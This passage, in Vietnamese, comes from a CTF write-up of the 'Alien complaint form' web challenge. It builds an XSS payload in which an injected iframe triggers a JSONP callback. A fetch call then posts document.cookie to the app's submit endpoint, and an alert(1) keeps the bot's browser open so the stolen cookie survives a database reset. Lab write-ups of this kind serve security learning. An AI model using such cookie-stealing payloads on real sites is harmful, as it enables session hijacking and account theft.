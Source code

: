 #### 3.2 Tạo payload

Đến đây, tôi nhớ đến lại chức năng của bot như sau:

![https://manhnv.com/images/posts/ctf/Cyber-Apocalypse-2021/Alien-complaint-form/Screen_Shot_2021-04-24_at_23.28.52.png](https://manhnv.com/images/posts/ctf/Cyber-Apocalypse-2021/Alien-complaint-form/Screen_Shot_2021-04-24_at_23.28.52.png)

Bot chỉ đi tới `http://127.0.0.1:1337/list`, vậy thì làm sao tôi có thể thêm `?callback` vào sau để mà thực thi javascript?

Câu trả lời là, ở `/list` chúng ta có thể inject html tag, nên tôi sử dụng thẻ `iframe` để làm điều đó. Tôi có `iframe`

```html
<iframe src="/list?callback={payload javascript}"></iframe>
```

Như vậy, khi bot đi tới `/list` thì `iframe` sẽ load `/list?callback={payload javascript}`, như vậy payload javascript đã được thực thi trong `iframe`.

**Đoạn này giải thích ngắn gọn một điểm lưu ý như vầy:** Khi tôi cố tạo payload là 1 mã javascript call ra domain của tôi kèm theo cookie, nhưng đã không thành công vì challenge này đã chặn call ra internet. Vì vậy tôi đã phải bỏ qua suy nghĩ đó, và tìm cách khác để steal cookie.

Vậy thì phải làm gì tiếp theo? 

Nhìn lại bên trên, chúng ta có `/api/jsonp` sẽ trả về danh sách `feedback` lấy được từ trong database. Đến đây đã có ý tưởng là tạo payload javascript call `/api/submit` để thêm cookies vào database `feedback`, và sau đó đi tới `/api/jsonp` để xem flag. Ý tưởng hoàn hảo.

```js
fetch("/api/submit",{headers: {'Accept':'application/json','Content-Type':'application/json'},method:"POST",body:JSON.stringify({complaint: document.cookie})});
```

Nhưng đến đây, tôi lại gặp vấn đề là sau khi bot đi đến `/list` thì ứng dụng sẽ `migrate` lại database, vậy thì cookies khi thêm vào sẽ bị xóa đi thì làm sao có thể xem được khi vào `/api/jsonp`. Tôi mở file `bot.js` và xem lại một lần nữa và chợt nhận điều đặc biệt.

![https://manhnv.com/images/posts/ctf/Cyber-Apocalypse-2021/Alien-complaint-form/bot-await.png](https://manhnv.com/images/posts/ctf/Cyber-Apocalypse-2021/Alien-complaint-form/bot-await.png)

```js
await browser.close();
await db.migrate();
```

Như vậy là, ứng dụng sẽ đợi cho `browser` đóng thì mới thực hiện `migrate` database. Thể hiện qua việc sử dụng hàm `await` (Nếu chưa biết `await` là gì thì tìm hiểu `await trong nodejs` nhé các bạn.). Đến đây lại nảy lên ý tưởng, vậy tôi thử làm cho browser đừng đóng lại, vậy là có thể đọc được flag trong database rồi. Đơn giản chỉ việc thêm `alert(1)` phía sau đoạn payload javascript submit là xong.

```js
fetch("/api/submit",{headers: {'Accept':'application/json','Content-Type':'application/json'},method:"POST",body:JSON.stringify({complaint: document.cookie})});alert(1)//
```

#### 3.3 Thử payload cuối cùng
